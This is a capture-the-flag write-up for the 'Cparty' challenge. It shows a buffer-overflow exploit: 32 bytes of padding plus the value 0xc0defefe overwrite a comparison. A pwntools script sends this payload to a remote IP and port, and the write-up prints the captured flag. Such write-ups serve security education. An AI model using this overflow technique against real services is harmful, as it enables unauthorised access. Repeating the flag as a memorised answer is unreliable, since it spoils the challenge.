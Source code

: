 # Cparty

![](./img/1.png#center)

To start I connect to the server to see what it asks me :

![](./img/2.png#center)

So I need to find a password. I will look the file with binaryninja.

![](./img/3.png#center)

As you can see, in order to retrieve the flag, we need to find ourselves in the block where there is the « cat /home/party/flag ». And just before this block we can see the comparison in order to enter this block :

![](./img/4.png#center)

Using this buffer is therefore very simple, we just have to find the size of our buffer then add the address 0xc0defefe so that the comparison is true and we can have the flag.

To use this vulnerability we need :

->Padding + 0xc0defefe<-

After a while, I arrived at 32 in padding.

Now that we have everything we juste need a script to automate the pwn :

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *

p = remote("89.38.210.128", 31338)

p.send("A"*32+p32(0xc0defefe))

p.recv(1024)

p.interactive()

#timctf{d0nt_cr4sh_th3_p4rty_b3_th3_p4rty}
```

![](./img/5.png#center)